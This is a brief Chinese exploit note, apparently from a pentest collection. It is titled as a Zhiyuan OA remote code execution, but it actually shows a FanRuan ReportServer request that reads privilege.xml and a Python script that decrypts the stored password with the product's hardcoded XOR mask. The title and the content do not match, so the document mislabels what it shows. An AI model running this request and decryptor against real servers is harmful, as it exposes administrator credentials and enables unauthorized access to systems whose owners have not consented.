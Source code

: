 # 致远OA远程代码执行

访问地址

```
http://192.168.16.117:8075/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

查看到一个账号和密码，但是这个密码被加密过

在帆软系统中使用硬编码的方式存储照着解密算法，我们使用Python写一份解密脚本

![image-20210410143550365](images/%E8%87%B4%E8%BF%9COA%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C.assets/image-20210410143550365.png)

```python
def decode(cipher):
    passwd_mask_array = [19, 78, 10, 15, 100, 213, 43, 23]
    passwd = ""
    cipher = cipher[3:]
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i+1)*4],16)
        c2 = c1 ^ passwd_mask_array[i % 8]
        passwd+=chr(c2)
    return passwd

if __name__ == '__main__':
    cipher = '___0022007c0039003b005100e3'
    print(decode(cipher))
    # 最后算到密码为：123456
```